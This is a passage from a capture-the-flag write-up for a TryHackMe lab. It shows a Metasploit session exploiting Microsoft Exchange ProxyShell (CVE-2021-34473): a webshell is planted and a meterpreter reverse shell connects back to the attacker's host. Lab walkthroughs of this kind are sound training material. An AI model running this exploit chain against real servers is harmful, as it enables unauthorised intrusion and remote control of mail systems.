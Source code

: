 The `dev-infrastracture-team` sounds like the `dev` user!

However, when we run that exploit script, it's kinda weird, like getting all kinds of errors.

**Luckly, there's a working exploit in MetaSploit!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Lookback)-[2023.05.16|16:29:20(HKT)]
└> msfconsole
[...]
msf6 > search CVE-2021-34473

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/exchange_proxyshell_rce

msf6 > use 0
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST tun0
LHOST => 10.8.70.81
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LPORT 4445
LPORT => 4445
msf6 exploit(windows/http/exchange_proxyshell_rce) > set EMAIL dev-infrastracture-team@thm.local
EMAIL => dev-infrastracture-team@thm.local
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS WIN-12OUO7A66M7.thm.local
RHOSTS => WIN-12OUO7A66M7.thm.local
msf6 exploit(windows/http/exchange_proxyshell_rce) > run

[*] Started reverse TCP handler on 10.8.70.81:4445 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-12ouo7a66m7.thm.local
[*] Assigning the 'Mailbox Import Export' role via dev-infrastracture-team@thm.local
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2402911436-1669601961-3356949615-1144 (dev-infrastracture-team@thm.local)
[*] Saving a draft email with subject 'IUuj3nex0ZU' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\fUKoLOJ31rjK.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200774 bytes) to 10.10.113.159
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\fUKoLOJ31rjK.aspx
[*] Meterpreter session 1 opened (10.8.70.81:4445 -> 10.10.113.159:18336) at 2023-05-16 16:33:59 +0800
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > 
```
